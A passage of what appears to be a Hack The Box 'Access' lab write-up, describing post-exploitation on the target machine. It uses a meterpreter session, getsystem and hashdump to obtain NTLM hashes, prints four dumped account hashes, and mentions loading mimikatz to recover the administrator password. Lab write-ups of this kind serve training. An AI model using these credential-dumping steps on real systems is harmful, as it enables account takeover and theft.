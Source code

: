 

backgrounded  meterpreter session to use hashdump module and get hashes of Admin. You need to run getsystem first before “run hashdump”


![alt text](/images/htb-Access/hashdump-acquired.png)

>**Administrator:500:aad3b435b51404eeaad3b435b51404ee:db852e5a46ea5f5514f639a20daa9e2c:::** 
>**Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::**
>**security:1001:aad3b435b51404eeaad3b435b51404ee:b41db16a61cb04b231625de260163015:::**
>**engineer:1002:aad3b435b51404eeaad3b435b51404ee:25c41637f0a9874ac9b90b4a4baf5783:::**


while waiting for jripper to crack the hash. I loaded mimikatz and got the admin's password



![alt text](/images/htb-Access/mimkikatz-admin-creds.png)
